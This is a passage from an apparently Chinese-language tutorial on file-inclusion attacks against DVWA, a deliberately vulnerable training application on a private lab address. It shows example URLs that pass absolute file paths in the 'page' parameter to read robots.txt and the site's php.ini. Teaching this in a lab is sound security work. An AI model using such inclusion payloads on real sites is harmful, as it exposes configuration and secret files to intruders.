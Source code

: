 ![show-robots](../imgs/wm_515.png)

并且我们上文使用的是相对路径，我们还可以使用绝对路径来访问：

```
http://192.168.122.102/dvwa/vulnerabilities/fi/?page=/var/www/dvwa/robots.txt
```

我们会得到同样的结果。

我们还可以通过这样的方式访问到网站根目录中的 php 配置文件：

```
http://192.168.122.102/dvwa/vulnerabilities/fi/?page=/var/www/dvwa/php.ini
```
